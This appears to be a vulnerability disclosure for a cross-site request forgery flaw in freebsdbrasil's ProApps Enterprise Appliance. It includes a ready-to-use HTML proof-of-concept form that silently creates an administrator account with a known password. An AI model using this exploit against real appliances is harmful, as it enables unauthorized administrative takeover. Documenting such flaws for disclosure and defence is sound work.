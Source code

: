 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Cross-Site Request Forgery (CSRF)

## Description Vulnerability:
CSRF can cause lot of consequences, depending on how the CSRF request is crafted and the application's behavior. In this case, it is a CSRF vulnerability that allows the creation of an administrative account on the web application, resulting in unauthorized access. To exploit a CSRF, the victim needs to be authenticated and have the "Users" management permission set to "Modified" (True).

## Exploitation:
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

As mentioned before, when an authenticated user clicks on the link, the malicious code will send a request to create a new user by the user's web browser. The code below creates a new administrative account in the vulnerable web application with the username `CSRF_POC` and the password `yourpassword`.
The code sends a crafted POST request to the `ger_user page` page with the parameters `login`, `password`, `password2`, `nome`, `gid` and `email` fields. It is important to mention that this page is responsible for creating new users or changing their passwords. Filling the other parameters is optional; all the important ones are already completed and ready to use.

NOTE: Leave the `gid` parameter is set to 1 to ensure that the account will have administrative permissions, however, it can be changed depending on how the environment is configured.

```
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Send CSRF-POST Request</title>
</head>
<body>
    <form action="https://vulnerablesite/index.php?page=ger_user" method="POST">
        <!-- Campos do formulário -->
        <input type="hidden" name="task" value="save">
        <input type="hidden" name="boxchecked" value="0">
        <input type="hidden" name="hidemainmenu" value="0">
        <input type="hidden" name="search" value="">

        <input type="hidden" name="dados[id]" value="">
        <input type="hidden" name="dados[nome]" value="POC_CSRF">
        <input type="hidden" name="dados[login]" value="csrf_account">
        <input type="hidden" name="dados[email]" value="csfr@test.com">
        <input type="hidden" name="dados[gid]" value="1">
        <input type="hidden" name="dados[password]" value="yourpassword">
        <input type="hidden" name="dados[password2]" value="yourpassword">
        <input type="hidden" name="dados[block]" value="0">
        <input type="hidden" name="dados[block2]" value="0">
        <input type="hidden" name="dados[totp2fa]" value="0">
        <input type="hidden" name="dados[totp2fa_test]" value="">
        <input type="hidden" name="dados[totp2fa_key]" value="xxxxx">
        <input type="hidden" name="id" value="">
        <input type="hidden" name="option" value="ger_user">

        <!-- Botão para enviar a requisição -->
        <button type="submit">CSRF_POC</button>
    </form>
</body>
</html>
```

Once exploited, it is now possible to log into the application and obtain unauthorized access.

## Impact Vulnerability:
CSRF Cross-Site Request Forgery allows creation of an administrative account or account hijacking.

### References:
- https://portswigger.net/web-security/csrf
- https://owasp.org/www-community/attacks/csrf
- https://www.linkedin.com/pulse/from-csrf-account-takeover-unmasking-danger-cross-site-request-lylbf/

